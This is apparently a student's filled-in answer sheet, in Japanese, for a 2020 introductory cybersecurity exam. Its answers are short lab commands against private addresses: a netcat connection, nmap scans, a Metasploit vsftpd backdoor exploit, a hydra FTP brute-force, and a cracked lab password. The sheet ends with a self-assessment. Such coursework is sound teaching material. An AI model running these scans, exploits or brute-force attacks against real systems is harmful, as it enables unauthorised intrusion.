 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# nc -l 5555 

```
### クライアント側コマンド

```sh
# nc 192.168.33.1 5555

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
- omas2  foobar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap 192.168.33.0-127

```

### 2. version scan

```sh
#  sudo nmap -sV -O -p- 192.168.33.6

```

## 問4 [Metasploit Framework]

```sh
# msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.33.6
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P passwd.list -t 16 192.168.33.6 ftp
```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# http

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
70点
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
パスワードの解析の仕方
 - msfconsoleの使い方
 - netcatの使い方
試験の問題をすべて解くことができなくて悔しかった

```
